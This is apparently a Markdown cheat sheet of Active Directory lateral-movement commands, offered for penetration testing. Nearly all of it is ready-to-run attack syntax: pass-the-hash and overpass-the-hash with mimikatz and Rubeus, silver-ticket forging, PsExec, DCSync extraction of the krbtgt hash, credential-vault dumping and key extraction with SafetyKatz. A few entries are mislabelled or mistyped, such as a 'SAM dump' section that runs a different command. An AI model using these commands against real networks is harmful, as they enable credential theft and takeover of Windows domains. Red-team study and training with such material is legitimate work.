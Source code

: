 # Lateral Movement

## Establishing Remote Sessions on Network

Connect to a machine using Powershell Remoting:

```
$sess = New-PSSession -ComputerName test-srv
Enter-PSSession -$sess
```

Connect to a machine using Winrs:

```
winrs -r:test-srv cmd
```

## Pass The Hash

Get a session via mimikatz.exe (of any domain user).

```
mimikatz.exe
privilege::debug
sekurlsa::pth /user:domainadmin /domain:test.com /ntlm:6366243a657a4ea04e406f1abc27f1
```

## Overpass The Hash

Get a session with Domain Privileges (hash of a domain admin is required).

```
C:\AD\test\Rubeus.exe asktgt /user:domainadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

## Derivative Local Admin

Find derivative local admin access.

```
. C:\AD\test\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

## Silver Ticket

Execute Silver ticket attack using Mimikatz.

```
mimikatz.exe
privilege::debug
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:test.com /ptt /target:test.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:domainadmin
```

Execute Silver ticket attack using BetterSafetyKatz.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:domainadmin /domain:test.com /sid:S-1-5-21-719815819-3726368948-3917688648 /target:test.corp.com /service:RPCSS /rc4:1be12164a06b817e834eb437dc8f581c /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

## PsExec

Execute a process remotely using PsExec.

```
PsExec64.exe cmd \\test.tech.com
```

## DCSync

Execute DCSync attack via SafetyKatz.exe.

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:test\krbtgt" "exit"
```

Execute DCSync attack via mimikatz.exe.

```
privileges::debug
lsadump::dcsync /user:test\krbtgt
```

## Credentials Vault

Dump credentials vault with SafetyKatz.exe.

```
C:\AD\Tools\SafetyKatz.exe "token::elevate" "vault::cred /patch" "exit"
```

## Dump SAM Hashes

Dump SAM of local machine via mimikatz.exe

```
SafetyKatz.exe "sekurlsa::ekeys" "exit"
```
